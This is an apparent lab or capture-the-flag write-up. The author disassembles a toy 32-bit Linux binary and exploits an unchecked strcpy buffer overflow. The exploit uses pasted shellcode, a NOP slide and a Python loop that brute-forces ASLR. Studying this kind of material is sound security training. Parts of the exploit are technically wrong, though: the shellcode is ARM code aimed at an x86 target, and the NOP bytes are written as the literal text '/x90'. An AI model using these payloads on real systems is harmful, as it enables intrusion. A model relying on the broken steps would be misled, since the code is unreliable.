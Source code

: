 We have a binary on a linux machine called ***"input"***. Let's execute it and see what it does.  

    $ ./input                                                                    
    Syntax: ./input <input string>

So we know the program takes input from the user but we don't know what it does.  
Using gdb let's disassemble main and try to understand the flow of the program and what is happening.

    (gdb) disassemble main
    0x0804845d <+0>:     push   ebp
    0x0804845e <+1>:     mov    ebp,esp
    0x08048460 <+3>:     and    esp,0xfffffff0
    0x08048463 <+6>:     sub    esp,0xb0
    0x08048469 <+12>:    cmp    DWORD PTR [ebp+0x8],0x1
    0x0804846d <+16>:    jg     0x8048490 <main+51>
    0x0804846f <+18>:    mov    eax,DWORD PTR [ebp+0xc]
    0x08048472 <+21>:    mov    eax,DWORD PTR [eax]
    0x08048474 <+23>:    mov    DWORD PTR [esp+0x4],eax
    0x08048478 <+27>:    mov    DWORD PTR [esp],0x8048540
    0x0804847f <+34>:    call   0x8048310 <printf@plt>
    0x08048484 <+39>:    mov    DWORD PTR [esp],0x0
    0x0804848b <+46>:    call   0x8048340 <exit@plt>
    0x08048490 <+51>:    mov    eax,DWORD PTR [ebp+0xc]
    0x08048493 <+54>:    add    eax,0x4
    0x08048496 <+57>:    mov    eax,DWORD PTR [eax]
    0x08048498 <+59>:    mov    DWORD PTR [esp+0x4],eax
    0x0804849c <+63>:    lea    eax,[esp+0x11]
    0x080484a0 <+67>:    mov    DWORD PTR [esp],eax
    0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
    0x080484a8 <+75>:    mov    eax,0x0
    0x080484ad <+80>:    leave  
    0x080484ae <+81>:    ret    

The program starts by comparing (cmp) a value to the number 1 (0x1) at address ***0x08048469***.  
If the condition is true, it jumps to address ***0x8048490*** where it will execute the strcpy (***0x080484a3***) function and then exit the program.  
If the condition is false, the program will execute the printf (***0x0804847f***) function and exit.

We can understand that the program checks to see if it got more then 1 argument, if it did it will copy the second argument it got.

***strcpy*** is vulnerable to a Buffer Overflow attack because it does not check input length, so let's try to exploit it by understanding the length of the buffer.

    (gdb) run $(python -c "print('A'*171)")
    Starting program: /root/Desktop/Challenges/ReverseEngineering/1/input $(python -c "print('A'*171)")
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Program received signal SIGTRAP, Trace/breakpoint trap.
    0xf7c23203 in ?? () from /lib32/libc.so.6

After some inputs I found that the program crashes at 171 bytes. In order to exploit this binary, we need 3 things:
* A payload
* A NOP slide that leads the program into the start of the payload
* An address in the middle of the payload

Let's start by getting the payload.  
I Got this shellcode from ***https://shell-storm.org/shellcode/files/shellcode-698.html***:

    \x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68

Now we need a NOP slide (NOP (/x90)is a character that tells the program to do No Operation, until it reaches a different character) that will "slide" the program to the start of the shell code payload.

Now we need an address that will be in the middle of the NOP slide.  
When I was looking for a good memory address, I saw that the address keep on changing and are randomized. That means that ASLR(Address space layout randomization) is enabled on the Linux machine.  
So let's pick a random address in the middle of the NOP slide ***0xffffcbe8***.

Since ASLR is on, let's just run the exploit in a loop until in gets the address we entered.

    import os

    for i in range(10000):
        address = '\xe8\xcb\xff\xff'
        shellcode = '\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68'
        os.system("./input " + "/x90" * 144 + shellcode + address)